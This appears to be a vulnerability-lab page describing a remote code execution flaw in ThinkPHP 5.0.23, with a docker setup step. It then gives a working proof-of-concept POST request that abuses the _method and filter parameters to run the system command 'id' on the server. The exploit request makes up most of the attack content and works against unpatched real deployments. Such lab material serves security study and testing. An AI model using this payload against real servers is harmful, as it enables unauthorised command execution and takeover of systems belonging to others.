

ThinkPHP5 5.0.23 Remote Code Execution Vulnerability¶
ThinkPHP is an extremely widely used PHP development framework in China. In its version 5.0(<5.0.24), while obtaining the request method, the framework processes it incorrectly, which allows an attacker to call any method of the Request class, resulting in a RCE vulnerability through a specific exploit chain.
References：
Environment Setup¶
Enter the following command：(ThinkPHP version: 5.0.23)
docker compose up -d
Visit http://your-ip:8080 and you'll see the default page of ThinkPHP.
POC¶
Send the packets and execute the command id:
POST /index.php?s=captcha HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
